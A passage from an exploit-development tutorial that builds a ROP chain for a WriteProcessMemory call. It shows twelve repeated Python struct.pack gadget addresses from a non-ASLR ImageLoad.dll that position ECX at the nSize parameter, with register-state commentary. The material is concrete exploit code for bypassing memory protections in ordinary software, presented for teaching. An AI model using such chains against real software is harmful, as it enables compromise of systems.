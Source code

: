 As you can see, 0x4 bytes after `lpBuffer` comes the `nSize` parameter (as denoted by `0x22222222`).

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM58.png" alt="">

Utilizing the same gadgets from a previous ROP routine - we can increase ECX by 12 (0xC) decimal bytes, to load the parameter placeholder address for `nSize`.

```python
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
```

It should also be noted, that after each of these ROP gadgets are executed - the AL register will be increased by 0x39 bytes. We will compensate for this in the future. Since AL only makes up the lower 8 bits of the EAX register, this will not have _much_ of an adverse effect on what we are trying to accomplish.

The state of the registers before execution can be seen below.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM59.png" alt="">

ECX, after the ROP gadgets are executed, is loaded with the address for the `nSize` parameter placeholder.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM60.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM61.png" alt="">

A nice gadget can be found, after parsing the PE, to overwrite the parameter placeholder with the legitimate parameter. 
